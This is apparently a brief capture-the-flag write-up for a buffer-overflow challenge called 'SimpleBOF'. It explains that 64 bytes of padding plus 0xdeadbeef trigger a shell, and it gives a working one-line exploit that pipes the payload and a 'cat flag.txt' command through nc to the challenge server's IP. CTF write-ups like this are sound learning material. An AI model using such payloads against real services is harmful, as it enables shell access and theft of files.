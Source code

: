 ### 0x00 Challenge: SimpleBOF
**Description:**
>This is so simple.
>
>nc 168.119.247.237 5010

### 0x01 Write-up:
It is a basic BOF where you need to overflow 64 bytes and specify a 0xdeadbeef chain for system("/bin/sh") to be called.

**Exploit:**

(python -c "print 'A' * 64 + '\xef\xbe\xad\xde'";/bin/echo cat flag.txt) | nc 168.119.247.237 5010

